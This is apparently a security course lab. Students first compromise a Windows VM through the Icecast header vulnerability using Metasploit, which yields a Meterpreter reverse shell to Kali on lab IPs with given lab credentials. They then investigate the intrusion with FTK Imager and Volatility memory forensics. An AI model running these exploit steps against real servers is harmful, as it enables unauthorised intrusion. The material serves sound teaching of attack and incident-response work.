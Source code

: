 ```yaml
---
title: "Incident response with Volatility memory analysis"
description:
include_toc: true
---
```


# Scenario

Consider the following scenario: one of your company's production servers has made an outbound connection to an IP address, which is abnormal behavior. Your task is to investigate what is going on.

# Part 1: Exploit Windows via Icecast Vulnerability

First, you'll play the role of the attacker. Compromise the Windows VM using the Icecast vulnerability in Metasploit.

## Start Icecast as admin

1.  Launch the Windows virtual machine. Log in to it as user `Labuser`,
    password `Passw0rd!`.

    If you are asked to provide a reason for an unexpected shutdown, you can
    ignore (cancel) this dialog. It is a Windows Server logging feature.

1.	On Windows desktop, right-click the "Icecast2 Win32" icon.
    <span class='badge badge-danger'>Important!</span> Select “Run as administrator.”
    If any warning message pops up, click “yes”.

    Running as Administrator will change the permissions that are obtained when
    the program is exploited.
    
2.	In the Icecast window that appears, click the button “Start server.”

    **Note**: The Icecast server is configured by default to a max of 5 connections.
    Each time you exploit the Icecast server, the connection count will tick up
    by one. If you use up all connections, simply kill and restart the Icecast server.

## Start msfconsole

In Kali, from a terminal, enter:

    msfconsole

## Finding and using an Icecast exploit

4.  From the `msf >` prompt, try:

        search icecast

5.  In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:

        use exploit/windows/http/icecast_header

    <div class='alert alert-info'><strong>Note:</strong> You can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it should show you all possible options for directory you are in.</div>

6.	Your msfconsole prompt should now look like this:

        msf exploit(icecast_header) >

    Indicating that the `icecast_header` module is loaded.

7.	Set the remote host to the Windows VM IP address:

        set rhost 192.168.56.100

10.	Meterpreter should already be selected as the payload. To verify, type:

        show options

13.	Set the "local host" variable to Kali's IP address on the infosec-net adapter.
    To set the local host variable, type

        set lhost 192.168.56.101

    A `lhost` was likely set for you by default -- but it may be an address for
    an incorrect interface! Make sure this setting is correct.

    <div class='alert alert-info'><strong>Note:</strong> Remember that you can
    easily check your IP in Unix/Linux by typing <code>ifconfig</code> or
    <code>ip</code> from within Metasploit.</div>

    {: #set-lhost-iface-name }
    **Note!** msfconsole allows you to specify an interface name as the `lhost`.
    The interface name for infosec-net is `virbr1`. You could set this as follows:

        set lhost virbr1

    Type `show options` to see that the variable has been set.

14.	With all options set, now it’s time to <span class='badge badge-danger'>
    <i class='fa fa-rocket'></i> launch the exploit!</span> Type:

        exploit

    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the `meterpreter >` prompt.

16. Get the process ID by typing `getpid`.

# Part 2: Create a memory dump from the Windows VM

In this section, you'll use a digital forensics tool, FTK Imager, to make a copy or "image" of the Windows VM RAM.

1. On the Windows VM, create a new folder called "Evidence."

2. Right-click the folder and select "Properties." Select the "Sharing" tab, and click "Share." On the next pop-up Window, click "Share." Click "Done" and "Close."

2. From inside the Windows VM, open a web browser and [download the FTK Imager zip file](https://security-assignments.com/beta/assets/files/FTK_Imager.zip). 

3. In Windows, extract the zip file, and run `FTK Imager.exe` from the extracted directory.

4. In FTK Imager, from the "File" menu, select "Capture memory." For the destination path, select the "Evidence" folder you created. Click "Capture Memory."

5. In Kali, browse to the shared "Evidence" folder by opening the "Home" folder on the desktop. In the URL bar of the file explorer window, type: 

        smb://192.168.56.100
        
    or 
        
        smb://VAGRANTVM
	
    Browse to the "Evidence" folder you created on the Windows desktop. E.g., at `C:\Users\LabUser\Desktop\Evidence`.

6. Log in with user `labuser` and password `Passw0rd!`

7. Drag the `memdump.mem` file created by FTK Imager to the desktop of Kali.

# Part 3: Use Volatility to examine the memory dump

## Install Volatility

1. Open a terminal and run the command:

        git clone https://github.com/volatilityfoundation/volatility3.git

2. Change to the `volatility3` directory.

3. Run the command:

        pip3 install -r requirements.txt

## Examine the memory dump with Volatility

1. From the `volatility3` directory, run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.info

	This should display information about the memory dump file.

2. Next, in the scenario described at the top of this document, you have been alerted that this server has made an unusual outbound connection. Let's investigate. Run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.netscan

	This outputs the status of network connections for the Windows VM at the time that the memory dump was created. This represents a snapshot of network activity at this point in time.

3. Look for a line that shows an `ESTABLISHED` connection. What is the remote IP address for this connection? What is the remote port address? What is the name of the executable associated with this connection? What is the process ID (PID) for this executable?

	Note that port `4444` is the default outbound port for Meterpreter.

4. Get a list of running processes with the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.pslist

	Can you locate the executable name and process ID?

5. Now we will use Volatility to scan the process ID for Icecast to look for hidden malicious code injected into the Icecast proces:

        python3 vol.py -f ~/Desktop/memdump.mem windows.malfind --pid [the process ID you identfied] --dump

	Volatility will output portions of memory associated with the Icecast PID that it believes is running malicious code.

	The `--dump` option will cause Volatility to write suspected malicious portions of memory to `.dmp` memory dump files.

6. Verify whether the `.dmp` files contain malware by opening virustotal.com in a browser in Kali and uploading each `.dmp` file for analysis. Select `Choose file` and then `Confirm upload`. 

	Virus Total will run the `.dmp` file through several dozen malware scanners. Do any of the scanners report that something is amiss? What do the `.dmp` files contain?
